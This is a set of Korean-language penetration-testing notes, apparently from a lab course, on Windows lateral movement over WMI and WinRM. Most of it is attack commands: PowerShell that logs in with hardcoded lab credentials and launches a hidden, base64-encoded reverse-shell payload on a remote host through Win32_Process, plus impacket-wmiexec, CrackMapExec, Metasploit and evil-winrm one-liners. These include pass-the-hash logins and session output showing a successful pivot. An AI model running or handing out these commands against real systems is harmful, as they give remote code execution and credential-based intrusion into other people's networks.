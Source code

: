 wmic(135)는 최근 사용이 중단됨
Windows 10 21H1 에서 중단 (2021.05.18?)
Windows 11 22H2, 23H2 다음에서 중단 (2022.9.20~2023.10.31?)

**전제 조건**
- 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시
- **135** 포트 접근 가능 여부

**wmi** 는
→ **wmic.exe** (win)
→ **impacket-wmiexec** (kali)
로 할 수 있다.

**wmic (ps)**
```powershell
$username = '**jen**';
$password = '**Nexus123!**';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

**impacket-wmiexec (kali)**
```powershell
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>'@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami

# PtH 로 접근할 시 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'
```

WinRS와 같은 빌트인 유틸리티로 작동하는 WinRM을 사용.

> WinRS가 작동하려면, 해당 Domain user가 Administrators 또는 Remote Management Users 그룹에 속해야 한다.

**winrs (cmd)**
```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

**winrs (powershell)**
```powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
Enter-PSSession 1
# Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
# -- ----            ------------    ------------    -----         -----------------     ------------
#  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available

# 아래는 수평이동이 완료된 모습
#PS C:\\Users\\jeff> Enter-PSSession 1
#[192.168.50.73]: PS C:\\Users\\jen\\Documents> whoami
#corp\\jen

#[192.168.50.73]: PS C:\\Users\\jen\\Documents> hostname
#FILES04
```

**evil-winrm (linux)**
```powershell
# 기본 로그인
evil-winrm -i <FQDN/ip> -u <user> -p <pass> 
# cert와 pem을 이용한 로그인
evil-winrm -c key.cert -k key.pem -i <target ip> -P 5986 -S
```

**crackmapexec (linux)**
```powershell
crackmapexec winrm <IP/FQDN> -u <user> -p <pass> -d <domain> -X <파워쉘-명령어>
```